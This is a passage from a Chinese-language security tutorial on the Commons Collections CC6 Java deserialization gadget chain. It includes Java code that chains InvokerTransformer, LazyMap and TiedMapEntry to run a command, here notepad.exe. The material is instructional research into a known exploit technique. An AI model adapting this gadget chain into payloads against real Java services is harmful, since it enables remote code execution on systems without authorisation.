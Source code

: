 这个类的构造函数也是`public`，构造函数可以给`map`赋值

![image-20250926140716302](./Commons-Collections%E7%AF%8703-CC6%E9%93%BE/image-20250926140716302.png)

那现在改为使用`TiedMapEntry.getValue()`来命令执行，代码如下：

```java
 Runtime runtime = Runtime.getRuntime();
        InvokerTransformer transformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"notepad.exe"});
        
        HashMap<Object,Object> hashmap = new HashMap<>();
        Map decoratemap = LazyMap.decorate(hashmap,transformer);
        
        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratemap,runtime);
        tiedMapEntry.getValue();
```

顺便把`Runtime对象`也改为可以序列化的形式，这里和上面还有一个区别就是`TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratemap,"key");`将其中的`runtime`对象改为字符串了

因为`tiedMapEntry.getValue()` 会调用 `decoratemap.get("key")`。然后再往上调用`chainedTransformer.transform("key")`。但是`ConstantTransformer.transform()`这个方法无论传入什么都会返回输入的参数，也就是`Runtime.class`

```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"notepad.exe"})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

                HashMap<Object,Object> hashmap = new HashMap<>();
        Map decoratemap = LazyMap.decorate(hashmap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratemap,"key");
        tiedMapEntry.getValue();

```
